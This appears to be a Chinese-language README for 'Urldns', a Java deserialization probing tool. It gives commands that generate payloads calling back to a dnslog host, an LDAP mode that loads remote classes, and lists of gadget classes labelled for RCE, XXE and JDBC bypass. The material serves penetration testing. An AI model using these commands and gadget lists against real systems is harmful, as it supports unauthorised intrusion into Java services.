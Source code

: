 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com  

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389  
请输入: java -jar Urldns.jar base64 all dnslog.com  
或者   : java -jar Urldns.jar file all dnslog.com  
或者   : java -jar Urldns.jar ldap all dnslog.com  

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
```
CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
Jdk7u21
JRE8u20
winlinux
```

使用ldap模式的all将额外探测如下  
```
//BeanFactory,配合无参构造和单String方法RCE
org.apache.naming.factory.BeanFactory
javax.el.ELProcessor
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
com.thoughtworks.xstream.XStream
org.xmlpull.v1.XmlPullParserException
org.xmlpull.mxp1.MXParser
org.mvel2.sh.ShellSession
com.sun.glass.utils.NativeLibLoader
//XXE和文件写入
org.apache.catalina.UserDatabase
org.apache.catalina.users.MemoryUserDatabaseFactory
//jdbc bypass
org.h2.Driver
org.postgresql.Driver
com.mysql.jdbc.Driver
com.mysql.cj.jdbc.Driver
com.mysql.fabric.jdbc.FabricMySQLDriver
oracle.jdbc.driver.OracleDriver
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.commons.pool.KeyedObjectPoolFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
org.apache.commons.pool2.PooledObjectFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
org.apache.juli.logging.LogFactory
com.alibaba.druid.pool.DruidDataSourceFactory
//WebSphere加载jar RCE
com.ibm.ws.client.applicationclient.ClientJ2CCFFactory
com.ibm.ws.webservices.engine.client.ServiceFactory
```

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
